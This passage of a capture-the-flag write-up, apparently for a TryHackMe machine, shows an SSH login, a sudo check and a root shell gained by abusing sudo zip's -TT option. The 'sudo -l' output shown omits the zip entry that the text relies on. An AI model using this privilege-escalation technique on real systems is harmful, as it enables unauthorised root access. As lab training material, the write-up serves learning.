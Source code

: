 ```text
root@kali:~/thm/tomghost# ssh merlin@10.10.76.159
merlin@10.10.76.159's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Tue Mar 10 22:56:49 2020 from 192.168.85.1
merlin@ubuntu:~$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

We are in as this new user Merlin. Grab the user flag while we're here:

```text
merlin@ubuntu:~$ ls
user.txt
merlin@ubuntu:~$ cat user.txt
<<HIDDEN>>
```

## Privilege Escalation

Now we need to find a way to escalate our privileges, first thing to check is what the user can sudo as:

```text
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```

So Merlin can run zip as root without needing a password. There are known exploits for getting to a root shell from zip. A quick Google easily finds an example to use here:

## Root Flag

```text
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we have a root shell so just need to grab the flag:

```text
# cd /root
# ls
root.txt  ufw
# cat root.txt  
<<HIDDEN>>
```

All done. See you next time.
